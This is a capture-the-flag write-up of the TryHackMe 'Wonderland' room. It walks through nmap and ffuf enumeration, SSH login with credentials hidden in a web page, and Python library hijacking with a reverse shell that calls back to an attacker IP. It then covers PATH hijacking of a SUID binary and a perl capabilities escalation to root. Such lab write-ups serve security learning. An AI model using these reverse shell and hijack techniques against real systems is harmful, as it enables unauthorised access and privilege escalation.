

# Wonderland

Fall down the rabbit hole and enter wonderland,

This CTF style challenge is rated medium difficulty and tagged  
_ctf_ :: _alice in wonderland_ :: _privesc_ :: _linux_  
These indicate the character of the challenges that will be faced when attempting this room.  
It's a Capture the Flag style challenge where we will need to find certain **strings** 
typically found in text files with names `user`, `root` or `flag`.  
The room is themed as the children's fairy tale _Alice in Wonderland_, and will 
require us to breach the security of a linux host and escalate our privileges on the box 
to find all the flags.  

Let's begin...  

## Enumeration  
It's always the first step. Gather information about our target.  
I will use `rustscan` and pass the found ports to `nmap` for further information gathering.  

  

Appears I need to increase my user's *_ulimit_* so I can I have more concurrent open files.  
Found two open ports `port 22` and `port 80`. This is common in CTF challenges and parallels 
reality somewhat. A host offers a web based UI and administration can be done remotely.  

Let's see what nmap can tell us about these services  

```
$ Nmap 7.93 scan initiated Sat Oct  8 12:24:36 2022 as: nmap -A -sV --script "(default and vuln)" -oN scans/nmap_allPorts -vvv -p 22,80 10.10.157.233
Nmap scan report for 10.10.157.233
Host is up, received syn-ack (0.23s latency).
Scanned at 2022-10-08 12:24:37 EDT for 15s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/local/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct  8 12:24:52 2022 -- 1 IP address (1 host up) scanned in 15.96 seconds
```  
Not much, apparently I didn't pass the parameters to **nmap** properly and all that shows up in 
the report is some versioning.  I'll run `nmap` on it's own and run the **vuln** suite of scripts 
on port 80  
`nmap -A -sV --script vuln -vvv -p 80 10.10.157.233`  
Got some copius output now  
```
nmap -A -sV --script vuln -vvv -p 80 10.10.157.233`  
[...]
Completed Service scan at 13:09, 13.15s elapsed (1 service on 1 host)  
NSE: Script scanning 10.10.157.233.  
NSE: Starting runlevel 1 (of 2) scan.  
Initiating NSE at 13:09  
NSE: [firewall-bypass 10.10.157.233] lacks privileges.
NSE Timing: About 97.30% done; ETC: 13:09 (0:00:01 remaining)
NSE Timing: About 97.30% done; ETC: 13:10 (0:00:02 remaining)
NSE Timing: About 97.30% done; ETC: 13:10 (0:00:03 remaining)
NSE Timing: About 97.30% done; ETC: 13:11 (0:00:03 remaining)
NSE Timing: About 97.30% done; ETC: 13:11 (0:00:04 remaining)
NSE Timing: About 97.30% done; ETC: 13:12 (0:00:05 remaining)
NSE Timing: About 97.30% done; ETC: 13:13 (0:00:06 remaining)
NSE Timing: About 97.30% done; ETC: 13:13 (0:00:07 remaining)
NSE Timing: About 97.30% done; ETC: 13:14 (0:00:08 remaining)
NSE Timing: About 97.30% done; ETC: 13:14 (0:00:08 remaining)
NSE Timing: About 97.30% done; ETC: 13:15 (0:00:09 remaining)
NSE Timing: About 97.30% done; ETC: 13:15 (0:00:10 remaining)
NSE Timing: About 97.30% done; ETC: 13:16 (0:00:11 remaining)
NSE Timing: About 97.30% done; ETC: 13:16 (0:00:12 remaining)
NSE Timing: About 97.30% done; ETC: 13:17 (0:00:13 remaining)
NSE Timing: About 97.30% done; ETC: 13:17 (0:00:13 remaining)
NSE Timing: About 97.97% done; ETC: 13:18 (0:00:11 remaining)
NSE Timing: About 99.32% done; ETC: 13:18 (0:00:04 remaining)
Completed NSE at 13:18, 553.41s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 13:18
NSE: [tls-ticketbleed 10.10.157.233:80] Not running due to lack of privileges.
Completed NSE at 13:18, 0.94s elapsed
Nmap scan report for 10.10.157.233
Host is up, received conn-refused (0.23s latency).
Scanned at 2022-10-08 13:09:11 EDT for 568s
PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-passwd: ERROR: Script execution failed (use -d to debug)
| http-enum:
|   /r/: Potentially interesting folder
|_  /img/: Potentially interesting folder
| http-slowloris-check:
|   VULNERABLE: 
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold  
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves 
|       the http server's resources causing Denial Of Service.
|
|     Disclosure date: 2009-09-17
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_  http://ha.ckers.org/slowloris/
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
|_http-litespeed-sourcecode-download: Request with null byte did not work. This web server might not be vulnerable  
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 13:18  
Completed NSE at 13:18, 0.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 13:18
Completed NSE at 13:18, 0.00s elapsed  
Read data files from: /usr/local/bin/../share/nmap
Service detection performed. Please report any incorrect results at
https://nmap.org/submit/
Nmap done: 1 IP address (1 host up) scanned in 578.45 seconds
```  

Have to wonder what was going on at the end of that scan. As the scan was nearing completion the estimated 
remaining time kept increasing. Very odd indeed.

The web root page doesn't reveal much


Nor does it's source

```html
<!DOCTYPE html>
<head>
  <title>Follow the white rabbit.</title>
    <link rel="stylesheet" type="text/css" href="/main.css">
</head>
<body>
    <h1>Follow the White Rabbit.</h1>
    <p>"Curiouser and curiouser!" cried Alice (she was so much surprised, that for the moment she quite forgot how to speak good English)</p>
    
</body>
```

Time to sniff out some hidden directories. And `ffuf` is just the tool for that 
chore.  

```
        /'___\  /'___\           /'___\                                                                                                    
       /\ \__/ /\ \__/  __  __  /\ \__/                                                                                                    
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\                                                                                                   
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/                                                                                                   
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0 Kali Exclusive <3
________________________________________________
 :: Method           : GET
 :: URL              : http://10.10.157.233/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
 :: Output file      : scans/fuzz_raft_med_lc.md
 :: File format      : md
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
______________________________________
img    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 235ms]
r      [Status: 301, Size: 0, Words: 1, Lines: 1, Duration:  235ms]
       [Status: 200, Size: 402, Words: 55, Lines: 10, Duration: 230ms]
poem   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 233ms]
```  

Only one of these lead anywhere. Adding a letter as I dug further down `/r` to 
`/r/a` to ... `/r/a/b/b/` you get the point. Follow the _rabbit_. I did and it led to this interesting page

```html
<!DOCTYPE html>

<head>
    <title>Enter wonderland</title>
    <link rel="stylesheet" type="text/css" href="/main.css">
</head>

<body>
    <h1>Open the door and enter wonderland</h1>
    <p>"Oh, you’re sure to do that," said the Cat, "if you only walk long enough."</p>
    <p>Alice felt that this could not be denied, so she tried another question. "What sort of people live about here?"
    </p>
    <p>"In that direction,"" the Cat said, waving its right paw round, "lives a Hatter: and in that direction," waving
        the other paw, "lives a March Hare. Visit either you like: they’re both mad."</p>
    <p style="display: none;">alice:XxXxXxXxXxXxXxXxXxXxXxXxXxXxXxXxXxXxXxXxXx</p>
    
</body>
```  

In a hidden paragraph are what _curiously_ look like credentials. Let us try 
them out on the other exposed service ==> **ssh**



Success! We are in.  
I think the pros call that a **_foothold_**

Now let's find out what alice can do.  

Or wait, flags ... it's all about flags. What is in alice's home diry?  
```sh
alice@wonderland:~$ ls -lA
total 32
lrwxrwxrwx 1 root  root     9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 alice alice  220 May 25  2020 .bash_logout
-rw-r--r-- 1 alice alice 3771 May 25  2020 .bashrc
drwx------ 2 alice alice 4096 May 25  2020 .cache
drwx------ 3 alice alice 4096 May 25  2020 .gnupg
drwxrwxr-x 3 alice alice 4096 May 25  2020 .local
-rw-r--r-- 1 alice alice  807 May 25  2020 .profile
-rw------- 1 root  root    66 May 25  2020 root.txt
-rw-r--r-- 1 root  root  3577 May 25  2020 walrus_and_the_carpenter.py
```  

What is `root.txt` doing in alice's **HOME**?  
The hint tells us.  


I wonder if `user.txt` is in root's **HOME**?  

```sh
alice@wonderland:~$ ls -l /root/user.txt
-rw-r--r-- 1 root root 32 May 25  2020 /root/user.txt
```

But of course! Owned by root, but it's world readable. We are part of the world, even if the 
world is upside down, let's read it!  

`cat /root/user.txt` does the trick.

Still, we need to elevate our privileges to read the `root.txt` we found in `/home/alice/`

Does alice have any `sudo` privs? Why, yes she does!  

```sh
alice@wonderland:~$ sudo -l
[sudo] password for alice:
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```  

It's not root but we can move laterally to another user here. By exploiting what is known 
as _Python Library injection_ we will put some code into a module that Python will 
_mistakenly_ run for us instead of the library module the script's author intended. 
This code will spawn a shell as the user **rabbit**.  

The first line of `walrus_and_the_carpenter.py` imports the *_random_* module.  

```sh
import random
poem = """The sun was shining on the sea,
Shining with all his might:
And that was scarcely odd, because
They’d eaten every one."""
[...]
for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```  

The script is intended to print 10 random lines of a long scroll of text. The first line 
of the script imports the standard library module named _random_. However, Python 
will import a module with that name if it is found in the same directory as the script 
being run. That is what we will do. Put a Python module of our own making named the same as
the library module we are wanting to substitute. By placing this file in the same directory as 
the script we will run it will get used instead of Python looking for a library module.  
The code below is cribbed from a well known stash of useful stuff [PayLoad All the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

```python
import socket,os,pty

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.13.21.92",4242))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/sh")
```  
Actually, the code above didn't work when I tried it. I cheated a bit and referring 
to one of the Writeups attached to the room discovered that substituting the `subprocess` 
module for `pty` in the code I tried to use was successful. `subprocess.call([parameters])` 
replaced `pty.spawn(parameter)`.  
At this point I need to open up another terminal and start a NetCat listener to 
catch the shell I'm sending back to the attacker box.  

  

That's half the users we can impersonate on this host. In retrospect, should  probably 
keep hands off the **tryhackme** user. It appears the service running the web service 
finds a home here.  
We have creds now for alice and can move to another user rabbit. What can we find as 
rabbit after stabilizing the shell for our rabbit user?  

We don't need no linPEAS here. A simple diry listing shows us a SUID[set uid] root 
binary sitting in our home diry. `strings` is not available but `xxd` is. It would 
appear this executable runs the **date** command to obtain some of the text it prints 
to the screen. Unfortunately, depending on your viewpoint, it does not call on `date` 
with a complete path. When it does call on the program to obtain some text data it 
will search for the `date` command along the active **PATH** in the environment. **WE** 
control the environment so we can control what executable named **date** gets found 
first. So we'll wrap up a shell launcher with the executable bit set that will get run 
with **SETUID** privileges. A simple script left in `/tmp/` will suffice and we will 
end up with a shell having the privileges other than our own. Oddly enough I got a shell 
but it wasn't a `root` shell. I woke up as `hatter`. Does this journey never end?  

Shell Launcher left in `/tmp/`
```sh
#!/bin/sh
/bin/bash -i
```  
When I run `teaParty` it will find /tmp/date first since we will put 
it at the head of the pack in our **$PATH** environment variable.  

```sh
PATH=/tmp:$PATH; ./teaParty
```

I have no idea how I ended up as `hatter` but I did. Time for some more enumeration.  
Now it is time to get out [linPEAS](https://github.com/carlospolop/PEASS-ng) to see 
if there is a path to root.  
There are a variety of ways to transfer files from your attacker machine to the target 
once you have your foothold of shell access. Suffice it to say I got the latest release 
of PEAS-ng onto the target and ran it from `/tmp`. There is way too much output to document 
here. Below is the piece that caught my eye. Tagged by linPEAS as potentially 95% probability 
of PE(privilege escalation).  

  

From [GTFObins](https://gtfobins.github.io/gtfobins/perl/#capabilities) we see some 
sample code that this time **will** launch a root shell. Let's try it out and see.  
  

We have Lift Off!  
Now I can read the `root.txt` left in alice's home and it's a wrap for Wonderland.  

The room was frustrating at times though it wasn't as trollish as some other rooms around 
TryHackMe.  I found it highly educational for every new thing I learned I think I found 
one or two things "I thought were true" that were not. Whoever would have thought a 
SETUID root binary would drop you into a User Mode shell? I should fire that room back up 
and pull that `teaParty` binary over to my host and do a more thorough analysis.
